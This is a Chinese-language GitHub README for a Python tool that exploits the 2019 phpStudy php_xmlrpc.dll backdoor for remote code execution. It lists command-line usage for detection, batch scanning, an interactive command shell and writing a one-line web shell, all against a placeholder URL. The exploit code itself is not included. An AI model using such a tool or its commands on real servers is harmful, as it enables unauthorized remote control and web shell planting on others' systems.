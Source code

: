 # phpstudy后门漏洞利用工具



## 0x00 概述

20190920 phpstudy爆出存在后门，该软件官网在2016年被入侵，软件安装包（php_xmlrpc.dll）被植入后门，利用http请求头的Accept-Encoding: gzip,deflate和'Accept-Charset'可造成远程代码执行。

本工具支持单url检测，cmdshell，get web shell（写入一句话木马），批量检测。



## 0x01 需求

python2.7

pip install requests



## 0x02 快速开始

使用帮助: python phpstudy-backdoor-rce.py -h


![](https://github.com/theLSA/phpstudy-backdoor-rce/raw/master/demo/phpstudybd00.png)


单url漏洞检测: python phpstudy-backdoor-rce.py -u "http://www.xxx.com/"


![](https://github.com/theLSA/phpstudy-backdoor-rce/raw/master/demo/phpstudybd01.png)


cmdshell: python phpstudy-backdoor-rce.py -u "http://www.xxx.com/" --cmdshell


![](https://github.com/theLSA/phpstudy-backdoor-rce/raw/master/demo/phpstudybd02.png)


getshell: python phpstudy-backdoor-rce.py -u "http://www.xxx.com/" --getshell --web-path WWW


![](https://github.com/theLSA/phpstudy-backdoor-rce/raw/master/demo/phpstudybd03.png)


批量检测: python phpstudy-backdoor-rce.py -f urls.txt


![](https://github.com/theLSA/phpstudy-backdoor-rce/raw/master/demo/phpstudybd04.png)


## 0x03 反馈

[issus](https://github.com/theLSA/phpstudy-backdoor-rce/issues)

gmail：[lsasguge196@gmail.com](mailto:lsasguge196@gmail.com)

qq：[2894400469@qq.com](mailto:2894400469@qq.com)



